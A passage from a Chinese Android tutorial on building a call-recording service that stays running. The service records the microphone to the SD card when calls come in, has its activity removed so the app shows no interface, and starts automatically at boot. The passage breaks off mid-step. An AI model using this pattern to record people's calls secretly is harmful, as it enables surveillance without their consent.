“无任何状态时”和“接起电话时”都不可能获取到来电号码，只要有来电我们就把 `incomingNumber` 放到 `listener` 对象成员变量里；“无任何状态时”没有，就把它设成 `null`。然后我们把服务配置起来，我们要在“功能清单”里进行配置，把 `activity` 去掉，代码如下：

```xml
<service android:name="PhoneListenerService" />
```

通过这条代码我们就已经配置好这个服务了。电话录音需要集中在实现录音处，使用“多媒体” API 来实现录音。上面声明一个刻录对象，`recorder.setAudioSource(MediaRecorder.AudioSource.MIC);` 这条代码来自于麦克风；输出路径改成 SD 卡 `3gp`，并放在 `try/catch` 块。我们要记录标志，在“无任何状态时”就把它停止，如果对象不为 `null` 就挂断；刻录时一定要真实，没有 `null` 就要刻录。

但是在测试之前我们必须加上几条权限：访问 SDCard、“刻录”，还有取得“电话权限”，代码如下：

```xml
<uses-permission android:name="android.permission.RECORD_AUDIO"/>
<uses-permission android:name="android.permission.MOUNT_UNMOUNT_FILESYSTEMS"/>
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
```

现在这个服务还不能运行，想要这个服务运行，我们必须通过一个调用者去调用它。我们用广播接收者进行调用，要在用户开机时启动这个服务；首先就得创建一个广播接收者（如图 3 所示）。单击“Finish”完成。在这里我们填写以下代码：

```java
Intent service = new Intent(context, PhoneListenerService.class);
context.startService(service);
```

当我们收到开机这个广播意图时就启动服务。接下来我们得在“功能清单”里进行配置，代码如下：